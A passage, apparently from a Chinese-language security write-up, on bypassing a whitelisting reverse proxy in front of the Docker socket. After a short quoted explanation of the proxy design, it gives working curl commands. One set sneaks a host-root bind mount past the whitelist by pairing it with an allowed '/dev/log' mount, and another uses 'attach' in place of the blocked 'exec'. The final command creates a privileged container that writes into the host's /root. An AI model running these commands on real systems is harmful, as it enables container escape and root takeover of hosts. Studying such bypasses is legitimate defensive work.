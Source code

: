 ![docker9](https://raw.githubusercontent.com/tom0li/tom0li.github.io/main/assets/images/docker9.jpg)
```
/var/run/docker.sock is not exposed within the docker containers anymore. It is readable and writable only for the “root” user and the “docker” group. As you already know the docker engine uses it directly.
/var/run/somethingelse.sock is instead the resource exposed within the docker containers. The file is created in order to be readable and writable only by an unprivileged user which is not part of the docker group. In this way the process creating it does not own enough access rights to read and write directly into “/var/run/docker.sock”. The docker engine remains the only one able to do that.
```
用户请求 "/var/run/somethingelse.sock"，经由反向代理，将这些请求转发到"/var/run/docker.sock"。反向代理根据预先保存在配置文件中的授权值白名单来决定是否请求"/var/run/docker.sock"。例如，只有当一个请求符合特定的HTTP方法(GET、POST等......)、路径(例如"/containers/create")和/或JSON体时，才可以让其通过。

### 利用
挂载目录  
白名单在验证```/dev/log:/dev/log```时通过  
传递多个```"Binds": ["/:/hostos", "/dev/log:/dev/log"]```挂载目录即可挂载成功  

执行命令  
执行/containers/{id}/exec时拦截  
使用attach绕过
curl -i -s --unix-socket /var/run/somethingelse.sock -X POST “http://localhost/containers/4fa6bfc84930/attach?logs=1&stream=1&stdin=true&stdout=true&stderr=true”

挂载目录获取root权限  
使用Docker API Cmd参数,不使用Entrypoint参数
```
curl -i -s --unix-socket /var/run/somethingelse.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true, "Tty": true,"OpenStdin": true, "StdinOnce": true,"Entrypoint": "","Cmd": ["touch", "/hostos/root/1.txt"],"Image": "dockerint.company.com/xxx/imagename:1.0.0-SNAPSHOT","Volumes": {"/hostos/": {}}, "HostConfig": {"Binds": ["/:/hostos", "/dev/log:/dev/log"], "Privileged": true}}' http://localhost/containers/create
```
